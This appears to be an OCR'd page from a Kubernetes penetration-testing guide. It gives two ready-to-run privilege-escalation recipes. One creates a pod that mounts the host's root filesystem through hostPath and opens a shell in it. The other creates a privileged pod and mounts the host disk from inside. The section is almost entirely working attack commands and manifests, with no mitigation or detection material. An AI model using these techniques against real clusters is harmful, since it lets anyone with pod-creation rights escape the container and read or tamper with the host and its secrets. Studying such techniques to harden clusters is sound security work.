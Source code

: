 ### Using hostPath Volumes

```bash
# Create pod with hostPath to access host filesystem
cat << EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: hostpath-escalation
spec:
  containers:
  - name: alpine
    image: alpine:latest
    command: ["sleep", "1000000"]
    volumeMounts:
    - name: hostfs
      mountPath: /host
  volumes:
  - name: hostfs
    hostPath:
      path: /
EOF

# Access host filesystem
kubectl exec -it hostpath-escalation -- /bin/sh
ls -la /host
```

### Using Pod Security Context for Privilege Escalation

```bash
# Create pod with privileged security context
cat << EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
spec:
  containers:
  - name: alpine
    image: alpine:latest
    command: ["sleep", "1000000"]
    securityContext:
      privileged: true
EOF

# Execute shell in privileged pod
kubectl exec -it privileged-pod -- /bin/sh

# From inside the privileged pod, mount host filesystem
mkdir -p /host
mount /dev/sda1 /host  # Adjust device name as needed
ls -la /host
```
